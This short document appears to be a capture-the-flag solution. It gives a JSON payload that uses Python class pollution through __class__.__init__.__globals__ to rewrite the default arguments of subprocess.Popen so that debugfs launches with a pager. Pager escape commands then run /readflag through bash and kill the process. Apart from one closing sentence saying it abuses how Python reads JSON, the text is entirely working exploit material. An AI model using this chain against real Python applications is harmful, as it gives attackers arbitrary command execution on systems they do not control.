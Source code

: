 ```json
{"data": "ajBlf", "nonce": "495c7520519dd86d5db5ce87a80f56bbc4c5cb0906156d11c353755d4bd9bef4", "hash": "0000009bbb4f8f60898f715f683043d637b10ed269351e3f71625547a0b4ac8f", "__class__": {"__init__": {"__globals__": {"subprocess": {"Popen": {"__init__": {"__defaults__": [-1, "/usr/sbin/debugfs", null, null, null, null, true, false, null, {"PAGER": "/usr/bin/more"}, null, null, 0, true, false, []]}}}}}}}
!bash -c "/readflag Please >& 1"
!pkill debugfs
```

This exploits python's way of reading in json to grant unintended access